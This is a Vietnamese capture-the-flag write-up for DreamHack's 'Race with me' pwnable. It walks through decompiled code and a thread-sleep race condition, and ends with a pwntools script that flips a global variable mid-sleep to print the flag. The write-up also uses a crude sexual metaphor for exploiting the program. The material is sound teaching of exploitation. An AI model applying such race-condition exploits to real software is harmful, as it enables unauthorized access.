

# Race-with-me---Write-up-----DreamHack
Hướng dẫn cách giải bài Race with me ? cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 3/12/2025

## 1. Mục tiêu cần làm
Đầu tiên chúng ta sẽ phân tích code đã dịch ngược của bài này như nào.

```C
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // [rsp+4h] [rbp-1Ch] BYREF
  pthread_t newthread; // [rsp+8h] [rbp-18h] BYREF
  void *ptr; // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(40u);
  sub_1369(a1, a2, a3);
  ptr = (void *)sub_13D7("./flag");
  qword_4030 = 0LL;
  while ( 1 )
  {
    sub_154B();
    printf("Input: ");
    __isoc99_scanf("%u", &v3);
    if ( v3 == 4 )
    {
      free(ptr);
      exit(0);
    }
    if ( v3 > 4 )
    {
LABEL_16:
      puts("Invalid Menu! Please try again.");
    }
    else
    {
      switch ( v3 )
      {
        case 3:
          if ( qword_4030 == 3735928559LL )
            printf("Flag : %s\n", (const char *)ptr);
          else
            puts("Don't have permission!");
          break;
        case 1:
          printf("Input: ");
          __isoc99_scanf("%lu", &qword_4038);
          break;
        case 2:
          if ( pthread_create(&newthread, 0LL, start_routine, 0LL) )
          {
            perror("Thread creation failed\n");
            exit(1);
          }
          pthread_detach(newthread);
          break;
        default:
          goto LABEL_16;
      }
    }
  }
}
```

Vậy mục tiêu của chúng ta là thực thi `if ( qword_4030 == 3735928559LL )`. Làm sao để thực thi nó ? Hãy sang bước 2.

## 2. Cách thực thi
Khi chạy bài này nó sẽ cho chúng ta 4 option lần lượt như sau :



1. Là nhập giá trị vào mà chúng ta sẽ thực hiện
2. Là bắt đầu thực thi hàm `start_routine`
3. Là thực thi lệnh `get flag` ( mục tiêu là ở đây )
4. Thoát chương trình

Vậy giờ làm sao đây, hãy bắt đầu mổ xẻ bài này.

Chúng ta cần biết cần 2 biến là `qword_4038` và `qword_4030` là biến toàn cục. Tại sao á ? Vì khi nó gọi hàm `start_routine` thì trong hàm này nó có thể xài trực tiếp luôn mà không cần tham chiếu hay trỏ gì hết, suy ra đây là 1 biến toàn cục cả bài. Tiếp theo hãy xem hàm `start_routine` này có gì.

```C
void *__fastcall start_routine(void *a1)
{
  if ( qword_4038 != 3735928559LL )
  {
    sleep(0xAu);
    qword_4030 = qword_4038;
  }
  return 0LL;
}
```

Các bạn sẽ thấy khá là vô lí là ở hàm main, ta cần `qword_4030` = `3735928559LL` thì nó mới đưa flag cho chúng ta. Nhưng ở hàm `main` thì không có lệnh nào để chúng ta ghi vô `qword_4030` được mà chỉ có ghi vô `qword_4038` thôi ( `__isoc99_scanf("%lu", &qword_4038);` ). Nhưng không sao vì hàm `start_routine` đã gán cho 2 thằng này bằng nhau nên ta có thể biến `qword_4030` = `3735928559LL` và lấy cờ được.

Nhưng đọc kĩ đi, chúng ta không thể gán `qword_4038` ngay từ đầu bằng `3735928559LL` được vì nó sẽ return và `qword_4030` vẫn = 0LL. Vậy thì làm sao đây.

Thì khi `qword_4038` != `3735928559LL` nó sẽ thực thi lệnh `sleep(10)`. Để có thể hình dung được lệnh này thì khi chúng ta chạy chương trình này nó sẽ chia ra làm 2 luồng là main và start_routine. Khi `sleep(10)` được thực thi thì chương trình sẽ tạm dừng tại vị trí `sleep(10)` này. Nhưng quan trọng là luồng main vẫn hoạt động bình thường. Và trong lúc nó ngủ chúng ta có thể rape em chương trình này.

Chúng ta sẽ nhân cơ hội này đổi `qword_4038` từ 1 biến bất kì ta đã nhập thành `3735928559LL` ngay lập tức. Và sau khi chương trình tỉnh dậy thì nó vẫn không biết `qword_4038` đã bị tráo đổi, nó sẽ gán `qword_4030` = `qword_4038` = `3735928559LL` và trở lại về hàm main. Lúc này thì `qword_4030` đã trở thành `3735928559LL`. Chúng ta chỉ cần chọn option 3 và nó sẽ in ra flag cho mình.

Thế là xong bài này khá là đơn giản nhưng yêu cầu đọc thật kĩ và hiểu được file đang làm và code như nào. Hãy cho mình 1 star để có động lực viết write-up tiếp nha 🐧.


```Python
from pwn import *

#p = process('./chall')
p = remote('host3.dreamhack.games', 15810)

DEADBEEF = 3735928559

p.sendlineafter(b'Input: ', b'1') # chọn option 1
p.sendlineafter(b'Input: ', b'1') # Nhập biến qword_4038 = 1

p.sendlineafter(b'Input: ', b'2') # Thực thi hàm start_routine()

p.sendlineafter(b'Input: ', b'1') # chọn option 1
p.sendlineafter(b'Input: ', str(DEADBEEF).encode()) # đổi qword_4038 thành 3735928559LL

time.sleep(11) # tạm dừng chương trình của mình 1 tí để sleep(10) kia dậy trước

p.sendlineafter(b'Input: ', b'3') # sau khi đã dậy thì chọn option 3 để in flag

p.interactive()
```
